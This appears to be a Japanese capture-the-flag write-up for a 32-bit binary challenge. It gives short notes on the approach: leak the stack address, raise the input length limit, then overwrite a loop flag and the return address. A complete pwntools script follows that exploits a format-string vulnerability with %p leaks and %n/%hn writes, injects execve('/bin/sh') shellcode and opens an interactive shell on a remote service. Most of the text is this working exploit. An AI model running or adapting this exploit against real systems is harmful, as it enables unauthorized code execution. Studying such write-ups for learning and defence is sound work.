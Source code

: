 # ポイント

- エントリーポイントからが長いので、メインをとりあえず見つける。
- 文字数制限が厳しいので、初手でそこを増やす。
- esp+0x10に文字数があるのは分かったが、そのアドレスが分からん！！
  →入力先esp+0x1cのアドレスがesp+0x14hに格納されている！
- 無限ループのせいでリターンアドレス書き換えても意味がない
  →無限ループを抜けるためのFlagを書き換える。



# 解法

1. espのアドレスリーク
2. 入力可能文字数増やす
3. 無限ループのflag書き換え& リターンアドレス書き換え->shellcodeに飛ばす



```python
#!/usr/bin/python
# -*- coding: utf-8 -*-

from pwn import *

rhp = {'host': '192.168.33.13', 'port':1234}
conn = remote(rhp['host'], rhp['port'])

shellcode = b'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'

res = conn.recvline()
log.info(res)

conn.sendline('%5$p')
log.info('get addr of esp + 0x1C')

res = conn.recvline()
log.info(res)

input_addr = int(res[:-1], 16)

esp = input_addr - 0x1c
input_size_addr = esp + 0x10
ret_addr = esp + 0x42c
flag_addr = esp + 0x18

log.info('input_size_addr:' + hex(input_size_addr))
log.info('ret_addr:' + hex(input_size_addr))
log.info('flag_addr:' + hex(input_size_addr))

res = conn.recvline()
log.info(res)



# payload = p32(esp_10 + 1)
payload = p32(input_size_addr)
payload += b'%90x'
payload += b'%7$n'

conn.sendline(payload)
log.info('send payload')

res = conn.recvline()
log.info(res)

res = conn.recvline()
log.info(res)

shellcode_addr = input_addr + 0xc

payload  = p32(flag_addr)
payload += p32(ret_addr)
payload += p32(ret_addr + 2)
payload += shellcode
fsb_ret1 = ((shellcode_addr & 0xFFFF) - len(payload) - 1) % 0x10000 + 1
fsb_ret2 = (((shellcode_addr >> 16) & 0xFFFF) - (shellcode_addr & 0xFFFF) - 1) % 0x10000 + 1
print(fsb_ret2)
print(fsb_ret1)

payload += b'%7$n'
payload += b"%%%dx" % fsb_ret1
payload += b'%8$hn'
payload += b"%%%dx" % fsb_ret2
payload += b'%9$hn'

conn.sendline(payload)
log.info('send payload')

conn.interactive()

```

